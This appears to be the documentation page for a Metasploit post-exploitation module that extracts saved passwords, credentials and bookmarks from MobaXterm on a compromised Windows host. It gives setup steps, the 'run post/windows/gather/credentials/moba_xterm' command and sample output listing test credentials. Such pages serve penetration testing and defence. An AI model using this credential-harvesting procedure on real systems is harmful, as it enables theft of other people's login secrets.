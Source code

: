 ## Vulnerable Application

  Any Windows host with a `meterpreter` session and MobaXterm v20.6+
  installed. The following passwords will be searched for and recovered:

### Installation Steps

  1. Download the latest installer of MobaXterm.
  2. Select default installation
  3. Open the software and click "Setting" in the toolbar, `General > MobaXterm password management > Master Password setting`
     complete password setting, add the test account password to the certificate.

## Verification Steps

  1. Get a `meterpreter` session on a Windows host.
  2. Do: ```run post/windows/gather/credentials/moba_xterm```
  3. If the system has registry keys for MobaXterm passwords they will be printed out.

## Options

 **MASTER_PASSWORD**

- If you know the password, you can skip decrypting the master password. If not, it will be decrypted automatically

 **CONFIG_PATH**

- Specifies the config file path for MobaXterm

## Scenarios

```

msf post(windows/gather/credentials/moba_xterm) > run
[*] Gathering MobaXterm session information from WIN-79MR8QJM50N
[!] Parsing is not supported: #84#9%C:\Users\FireEye\Desktop%0%#MobaFont%10%0%0%-1%15%236,236,236%30,30,30%180,180,192%0%-1%0%%xterm%-1%-1%_Std_Colors_0_%80%24
%0%1%-1%<none>%%0#0# #-1
[!] Parsing is not supported: #131#8%0%1009600%3%0%0%1%2%COM2  (ͨ˿ (COM2))#MobaFont%10%0%0%-1%15%236,236,236%30,30,30%180,180,192%0%-1%0%%xterm%-1%-1%_Std_Color
s_0_%80%24%0%1%-1%<none>%%0#0# #-1
[!] Parsing is not supported: #97#10%0%#MobaFont%10%0%0%-1%15%236,236,236%30,30,30%180,180,192%0%-1%0%%xterm%-1%-1%_Std_Colors_0_%80%24%0%1%-1%<none>%%0#0# #-1
[!] Parsing is not supported: #88#3%%0%-1%0%0%0%localhost%7100%1%0%1%0%657%336%0%0#MobaFont%10%0%0%-1%15%236,236,236%30,30,30%180,180,192%0%-1%0%%xterm%-1%-1%_
Std_Colors_0_%80%24%0%1%-1%<none>%%0#0# #-1
[+] MobaXterm Password
==================       
                                                                                                                                                               
Protocol  Hostname    Username  Password                                                                                                                       
--------  --------    --------  --------                                                                                                                       
          mobaserver  mobauser  278804moba14071pass317387                                                                                                      
                                                                                                                                                               
[+] MobaXterm Credentials
=====================

CredentialsName  Username  Password
---------------  --------  --------
ftp              1212
ssh              root      admin

[+] MobaXterm Bookmarks
===================

BookmarksName  Protocol  ServerHost           Port  Credentials or Passwords
-------------  --------  ----------           ----  ------------------------
ftp            ftp       ftp.asdas.com        21    asdas
msf            telnet    msf                  23    msf
rdp (rdp)      rdp       rdp                  3389  rdp
rsh            rsh       rdp.baid.com         rsh   #MobaFont
sftp           sftp      sftp.asdasd.com      22    asdasd
ssh            ssh       127.0.0.1            22    [ssh]
telnet_test    telnet    telnet.kali-team.cn  23    admin
vnc            vnc       vnc.basbas.com       5900  -1


```

